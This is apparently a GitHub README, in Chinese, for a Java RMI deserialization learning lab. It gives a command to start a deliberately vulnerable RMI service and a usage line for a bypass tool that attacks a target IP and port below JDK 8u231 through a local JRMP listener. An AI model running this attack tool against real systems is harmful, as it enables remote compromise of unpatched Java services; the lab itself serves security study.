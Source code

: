 # RMIDeserialize
RMI反序列化学习环境，细节请参考博客[RMI-反序列化-深入-上](https://lalajun.github.io/2020/06/22/RMI%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E6%B7%B1%E5%85%A5-%E4%B8%8A/)、[RMI-反序列化-深入-上](https://lalajun.github.io/2020/06/22/RMI%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E6%B7%B1%E5%85%A5-%E4%B8%8B/)

`java -cp RMIDeserialize.jar com.lala.ServerAndRegister` ：起一个包含CC链可以被攻击的RMI服务

`java -jar RMI-Bypass290.jar <攻击目标IP> <攻击目标端口> <本地JRMP服务IP> <本地JRMP服务端口>`：攻击目标8u231版本以下的RMI服务。

其他功能可以从源码运行。

![总结图.png](http://ww1.sinaimg.cn/large/006iKNp3ly1gg378mdwp2j31ut18015j.jpg)
